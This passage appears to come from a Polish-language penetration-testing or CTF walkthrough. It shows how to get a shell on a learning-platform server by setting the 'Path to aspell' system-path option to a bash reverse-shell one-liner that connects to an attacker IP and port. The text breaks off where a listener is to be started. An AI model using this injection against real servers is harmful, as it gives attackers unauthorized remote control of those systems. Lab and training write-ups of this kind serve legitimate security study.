

Przechodzimy kolejno do: Settings -> Site administration -> Server -> System paths:



W miejsce "Path to aspell" wstawiamy reverse shell'a:

```
bash -i >& /dev/tcp/[IP]/[PORT] 0>&1
```

Po zapisaniu zmian odpalamy nasłuchiwanie na wybranym porcie:
